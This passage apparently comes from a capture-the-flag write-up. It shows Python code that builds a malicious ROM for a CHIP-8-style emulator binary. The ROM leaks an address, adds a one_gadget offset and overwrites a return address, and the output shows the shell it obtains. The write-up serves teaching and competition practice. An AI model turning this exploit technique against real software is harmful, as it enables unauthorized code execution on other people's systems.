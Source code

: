 ```
    p += '\x89\xf0' # LD V9, Vf
    p += '\x84\x94' # ADD, V4, V9
    p += '\x68' + p64(val)[4] # LD V8, p64(val)[4]
    p += '\x84\x84' # ADD V4, V8
    p += '\x89\xf0' # LD V9, Vf
    p += '\x85\x94' # ADD, V5, V9
    p += '\x68' + p64(val)[5] # LD V8, p64(val)[5]
    p += '\x85\x84' # ADD V5, V8
    p += '\x89\xf0' # LD V9, Vf
    p += '\x86\x94' # ADD, V6, V9
    p += '\x68' + p64(val)[6] # LD V8, p64(val)[6]
    p += '\x86\x84' # ADD V6, V8
    p += '\x89\xf0' # LD V9, Vf
    p += '\x87\x94' # ADD, V7, V9
    p += '\x68' + p64(val)[7] # LD V8, p64(val)[7]
    p += '\x87\x84' # ADD V7, V8
    return p

p = ''
p += read64(leak_loc_off)
p += add64i(one_gadget_off - leak_off)
p += write64(ret_addr_off)
p += '\x00\xfd' # EXIT

print 'Writing payload to ROM...'
with open('PAYLOAD.ROM', 'w') as f:
    f.write(p)
print 'PAYLOAD.ROM written'
```

`Vf` here is the carry register, which is 1 when the previous operation overflowed.

The addition code didn't initially work as planned and needed debugging. One debugging technique I used which was immensely helpful was putting the reversed struct in `types.h` and following the instructions [here](https://gist.github.com/logc/c37ef4f5604430bfbf5625bf7546d4cd) so gdb can print the state of the emulated CPU at each instruction.

After many failed attempts and debugging, I finally got a shell!

```
[adversary ~]$ ./twitter PAYLOAD.ROM
bash4.4$
```

## Apparently I wasn't done

After seeing the shell, I ran `whoami` to confirm that I was the `target` user.

```
bash4.4$ whoami
adversary
```

At this point, I assumed the challenge was broken and contacted an organizer.
